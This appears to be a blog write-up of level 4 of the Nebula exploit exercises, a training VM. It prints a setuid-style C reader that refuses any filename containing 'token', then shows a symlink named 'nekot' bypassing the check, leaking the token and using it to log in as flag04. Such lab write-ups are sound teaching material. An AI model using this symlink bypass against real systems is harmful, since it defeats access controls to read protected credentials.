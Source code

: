 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 4"
date:   2016-07-30 12:34:00 +0200
categories: security exercises
---
```


> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

~~~ c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
~~~

* * *

The only check this program does seems to be by filename. If the filename contains the string `token`, it will not let us read it.

~~~ bash
level04@nebula:~$ /home/flag04/flag04 /home/flag04/token
You may not access '/home/flag04/token'
~~~

Let's work around this with a symlink:

~~~ bash
level04@nebula:~$ ln -s /home/flag04/token ~/nekot
level04@nebula:~$ /home/flag04/flag04 ~/nekot
06508b5e-8909-4f38-b630-fdb148a848a2
~~~

Let's try to use the token to become the `flag04` user!

~~~ bash
level04@nebula:~$ su - flag04
Password:
flag04@nebula:~$ getflag
You have successfully executed getflag on a target account
~~~
